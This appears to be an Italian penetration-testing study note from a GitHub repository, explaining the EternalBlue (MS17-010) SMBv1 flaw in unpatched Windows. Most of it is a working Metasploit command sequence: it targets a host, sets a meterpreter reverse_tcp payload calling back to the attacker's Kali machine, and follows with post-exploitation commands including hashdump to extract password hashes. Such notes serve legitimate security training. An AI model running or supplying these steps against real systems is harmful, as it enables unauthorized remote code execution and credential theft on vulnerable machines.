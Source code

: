 <a href="https://github.com/Gigidotexe/Penetration_Test_notes/blob/main/README.md"> Back </a>
# Exploit EternalBlue (MS17-010)

**EternalBlue** è una vulnerabilità critica identificata come **MS17-010** che colpisce il protocollo **SMBv1** su sistemi Windows non aggiornati (XP, 2003, 7). <br>
Questa vulnerabilità consente l'esecuzione di codice da remoto (**RCE**) senza autenticazione, sfruttando un bug nei pacchetti SMB. <br>
È diventata celebre in quanto utilizzata dal worm **WannaCry**. <br>
EternalBlue è sfruttabile solo se il servizio SMBv1 è attivo e non patchato.

Metasploit:
```bash
use exploit/windows/smb/ms17_010_eternalblue
set RHOSTS <IP>
set SMBPIPE BROWSER
set PAYLOAD windows/x64/meterpreter/reverse_tcp
set LHOST <KaliIP>
set LPORT <Port>
run
```

Una volta ottenuta la shell:
- `getuid`, `getprivs`, `hashdump`

